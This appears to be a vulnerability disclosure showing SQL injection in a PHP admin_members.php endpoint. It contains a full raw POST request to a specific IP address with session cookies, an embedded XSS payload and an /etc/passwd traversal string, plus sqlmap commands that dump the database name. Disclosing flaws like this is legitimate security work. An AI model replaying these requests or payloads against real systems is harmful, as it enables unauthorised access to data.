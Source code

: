 Request a delay of 5 Response within 10 seconds
<img width="2738" height="1388" alt="image" src="https://github.com/user-attachments/assets/8477b34d-f1b4-4926-9999-72d6133b8608" />


<img width="2742" height="1428" alt="image" src="https://github.com/user-attachments/assets/b4dfc72b-f2fb-4c90-8cd2-130f83f54795" />

Copy the request packet; Change the injection point parameter 'id' to 'id=123' and save it as sql.txt; As follows:
-----------------------------------------------------------------------------------------------------------------------------------

POST /30h9r/admin_members.php?ac=editsave HTTP/1.1
Host: 117.72.99.125
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 297
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: b90f5dd6d9e2dd57d6923cc5ff004f81_ssl=4367f410-636e-4b97-9883-f34bf361fa12.6Qw9eztOxIrDDuk37dBvDYqdw4M; a92363a1749cf97619f515a0efc163a5_ssl=f92a0fb9-7632-4731-bd2e-fb39cbfe492b.djCZJ5AYTm8WZzwMZyszKsi86S0; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; XLA_CI=8084cfdc4be60dd551c26fe7666cb493; history=%5B%7B%22name%22%3A%22kaill%22%2C%22pic%22%3A%22%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd%22%2C%22link%22%3A%22%2Fdetail%2F%3F524.html%22%2C%22part%22%3A%22%22%7D%5D; PHPSESSID=67b60hjkikku0l5hc5s97dq6a6
Origin: http://117.72.99.125
Referer: http://117.72.99.125/30h9r/admin_members.php?ac=edit&id=2
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

Submit=%E7%A1%AE%E8%AE%A4%E4%BF%9D%E5%AD%98&acode=4146127b692bc4c4c282f61a4870f560&delpic=1&email=24622%40qq.com&gid=2&id=123&nickname=%3Cscript%3Ealert%28%27xss%27%29&psd=&upoints=0&ustate=1&vipendtime=2025-09-07+13%3A32%3A23
----------------------------------------------------------------------------------------------------------------------------------
Use sqlmap for injection verification

The existence of sql injection was successfully verified using the injection statement "sqlmap -r sql.txt -p id --dbms=mysql --level=5 --risk=3 --random-agent --flush-session --batch -3 ". As shown in the picture
<img width="1005" height="421" alt="截屏2025-09-07 16 42 06" src="https://github.com/user-attachments/assets/b27c6b97-99a5-4237-9c69-dec91cad0c46" />
The statement "sqlmap -r sql.txt -p id --dbms=mysql --technique=T --current --db --batch -- v 3 "was used to inject and obtain the database, successfully generating the database name. As shown in the picture
<img width="1010" height="429" alt="截屏2025-09-07 18 08 18" src="https://github.com/user-attachments/assets/4353204c-520a-4c67-b17d-711899d4eaeb" />










